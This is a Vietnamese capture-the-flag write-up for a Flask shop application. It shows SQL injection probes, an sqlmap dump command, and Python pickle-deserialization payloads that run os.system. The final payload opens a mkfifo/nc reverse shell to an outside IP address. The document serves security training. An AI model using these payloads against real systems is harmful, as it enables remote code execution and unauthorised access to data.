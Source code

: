 

# Phân Tích Code
Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Đây là mã nguồn được viết bằng Python và Flask. Tôi sẽ đọc tệp ```routes.py``` để biết thông tin đầu vào của trang web.

![](https://i.imgur.com/phZwpEK.png)

Ở đây mình thấy có 2 chức năng là homepage và viewpage. Trang homepage sẽ hiển thị tất cả các sản phẩm và trang viewpage sẽ hiển thị chi tiết từng sản phẩm. 

Hai chức năng query all_product và select_by_id ở trong class Shop trong file ```models.py```, mình sẽ kiểm tra 2 chức năng này.

![Imgur](https://i.imgur.com/DCB0srs.png)

Trong hàm select_by_id có truyền 1 biến product_id và biến này không được filter => điều này có thể dẫn đến lỗi SQL Injection. 

![Imgur](https://i.imgur.com/a2tiI4C.png)

Ngay cả trong hàm query_db cũng không được filter. 

# Khai Thác SQLi
Mình thử payload ```' or '1'='1``` và ```' or '1'='2```

![Imgur](https://i.imgur.com/efANYyE.png)

![Imgur](https://i.imgur.com/TUEMQpf.png)

Tiếp theo mình sẽ sử dụng sqlmap để thực hiện khai thác dump db.

```python sqlmap.py -u http://localhost:8888/view/1 --random-agent --level=5 --risk=3 --dbms=mysql --dump ```

![Imgur](https://i.imgur.com/kuTmzc2.png)

Kết quả mình nhận được là dữ liệu đã bị encode dạng base64. 

=> Có vẻ như mình đã sai hay thiếu ở đâu đó.

# Tiếp Tục Phân Tích Code
Khi mình quay lại phân tích file ```routes.py``` thì mình mới để ý là dữ liệu hiển thị trong file ```item.html```

```python
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```

Nội dung của file ```item.html``` có 1 đoạn như thế này


```html
	<section class="py-5">
            <div class="container px-4 px-lg-5 my-5">
                <div class="row gx-4 gx-lg-5 align-items-center">
                    {% set item = product | pickle %}
                    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
                    <div class="col-md-6">
                        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
                        <div class="fs-5 mb-5">
                            <span>£{{ item.price }}</span>
                        </div>
                        <p class="lead">{{ item.description }}</p>
                    </div>
                </div>
            </div>
        </section>
```

Nội dung hiển thị ra được sử dụng hàm ```pickle``` để bảo vệ.

Và trong file ```app.py```, hàm sẽ được trả ra kết quả base64.

```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```

Và sau một thời gian tìm kiếm trên google và về hàm pickle. Mình nhận thấy rằng hàm này có thể RCE.

- [https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
- [https://docs.python.org/3/library/pickle.html ][https://docs.python.org/3/library/pickle.html ]

# Exploit
Trước tiên, mình thử ```nc``` đến server của mình để xem nó có hoạt động hay không với payload:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("nc 103.68.192.239 8899")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Mở 1 port 8899 trên server với lệnh sau: ```nc -lnvp 8899```

Sau đó mình sử dụng burpsuite để thực hiện gửi payload lên ứng dụng web. 

![Imgur](https://i.imgur.com/OdzcERa.png)

Và mình nhận được 1 kết nối lên server.

![Imgur](https://i.imgur.com/43ZUklf.png)

Tiếp theo mình tạo một payload để thực hiện reverse shell về server của mình

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 103.69.195.239 8899 >/tmp/f")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Và send payload lên ứng dụng

![Imgur](https://i.imgur.com/QbxrAYV.png)

Sau đó mình có được shell và get flag

![Imgur](https://i.imgur.com/tb8HHve.png)


